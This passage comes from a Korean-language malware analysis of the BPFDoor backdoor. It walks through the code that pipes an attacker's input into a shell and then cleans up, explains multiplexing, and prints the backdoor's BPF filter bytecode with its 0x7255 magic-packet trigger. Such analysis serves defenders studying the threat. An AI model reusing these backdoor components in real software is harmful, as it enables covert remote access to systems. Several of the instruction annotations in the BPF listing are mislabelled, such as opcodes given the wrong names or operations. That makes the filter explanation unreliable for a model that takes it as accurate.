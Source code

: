         - `ECHAR`을 찾지 못했을 경우에, 수신된 데이터 `buf` 전체를 `pty`에 그대로 쓴다. 이는 공격자의 입력을 PTY 마스터인 `pty`에게 전달하여 쉘의 표준 입력으로 전달되어 실행된다.

        - 이 구문이 끝나면 공격자의 입력이 수신된 소켓으로부터 데이터를 받아 `pty`에 전달함으로써 공격자의 명령을 쉘이 실행된다. 쉘의 결과는 `FD_ISSET(pty, &fds)` 부분에서 처리되어 공격자에게 전달된다.

7. **while loop 종료**

    ```c
    close(sock);
    close(pty);
    waitpid(subshell, NULL, 0);
    vhangup();
    exit(0);
    ```

    - 열었던 소켓과 PTY 마스터의 FD를 닫고, 이전에 생성한 자식 프로세스(`subshell`, 쉘을 실행하고 있는 프로세스)가 종료될 때까지 대기한다. 자식 프로세스가 종료되면 부모 프로세스가 이를 깔끔하게 자원을 정리한다.
    - `vhangup()` 호출을 통해 현재 프로세스의 제어 터미널과의 연결을 끊고, 해당 터미널에 대한 모든 FD를 닫는다. PTY 슬레이드가 쉘의 제어 터미널 역할을 했기에 이 연결을 끊어, 백도어 프로세스가 종료된 후에도 터미널 장치가 불완전한 상태로 남아있지 않도록 한다. 터미널 자원을 깨끗하게 정리하는 단계이다.
    - exit(0) 호출을 통해 shell 함수를 호출한 부모(`packet_loop` 혹은 `getshell`)에게 돌아가지 않고 프로세스 자체를 완전히 종료한다.
    - BPFDoor가 시스템에 남길 수 있는 흔적이나 불안정성을 최소화하여 사용했던 시스템 리소스를 정상적으로 해제하여 백도어의 은밀성과 안정성을 높인다.

> **Multiplexing (다중화)**
: 여러 개의 데이터 스트림이나 채널을 하나의 전송 매체를 통해 동시에 전송하는 기술
>
>
>
> 서버 유형에서의 multiplexing은, 서버가 여러 연결을 한 번에 처리하기 위해서는 Multi-thread, Multi-process, Multiplexing 방식이 존재함. 여러 요청을 한번에 처리하는 방식이 여러 개의 process나 thread를 생성하는 것과는 달리, 단 하나의 서버 프로세스로 여러 클라이언트 소켓들의 요청을 처리함.
>
> 하나만 존재하는 서버 소켓은 이런 작업을 가능하게 하기 위해 polling 또는 interrupt 방식을 사용하는데, polling 방식은 서버 프로세스가 fd(file descriptor)를 지속적으로 감시하며 해당 fd에 대한 I/O 요청 flag 값이 켜져 있으면 fd에 서버 소켓이 연결하여 read/write 작업을 진행한 뒤에 소켓과의 연결을 끊고, 다른 소켓들에 대한 작업을 처리하러 감
>

## 🔸BPF 분석

```c
struct sock_filter bpf_code[] = {
		/* 1) 초기 검사: 이더넷 타입 - IP 패킷 확인 */
    { 0x28, 0, 0, 0x0000000c },   // 1:  LDMH [12] (EtherType)
    { 0x15, 0, 27, 0x00000800 },  // 2:  JEQ #0x800, L2, L28 (IP)

    /* 2) IP 헤더 프로토콜 및 단편화 검사(UDP 패킷 경로) */
    { 0x30, 0, 0, 0x00000017 },   // 3:  LDAB [23] (IP protocol)
    { 0x15, 0, 5, 0x00000011 },   // 4:  JEQ #0x11, L4, L6 (UDP)
    { 0x28, 0, 0, 0x00000014 },   // 5:  LDDW [20] (IP src addr)
    { 0x45, 23, 0, 0x00001fff },  // 6:  AND #0x1fff (fragment offset, checks if not fragmented)
    { 0xb1, 0, 0, 0x0000000e },   // 7:  LDSH [14] (TCP/UDP Dport) (This is incorrect in original comment, it's actually IP Header Length + TCP/UDP Header Length)
    { 0x48, 0, 0, 0x00000016 },   // 8:  LDSH [22] (TCP/UDP Sport)

    /* 3) 매직 패킷 값 확인(UDP 포트/데이터) */
    { 0x15, 19, 20, 0x00007255 }, // 9:  JEQ #0x7255, L9, L28 (0x7255 is 29269, BPFDoor magic value)

    /* 4) IP 헤더 프로토콜 및 단편화 검사(ICMP 또는 다른 프로토콜 경로) */
    { 0x15, 0, 7, 0x00000001 },   // 10: JEQ #0x1, L10, L18 (check for IPPROTO_ICMP)
    { 0x28, 0, 0, 0x00000014 },   // 11: LDDW [20] (IP src addr)
    { 0x45, 17, 0, 0x00001fff },  // 12: AND #0x1fff (fragment offset, checks if not fragmented)
    { 0xb1, 0, 0, 0x0000000e },   // 13: LDSH [14]
    { 0x48, 0, 0, 0x00000016 },   // 14: LDSH [22]

    /* 5) 두 번째 매직 패킷 값 확인(ICMP 또는 다른 프로토콜 데이터) */
    { 0x15, 0, 14, 0x00007255 },  // 15: JEQ #0x7255, L15, L28 (BPFDoor magic value for ICMP)
```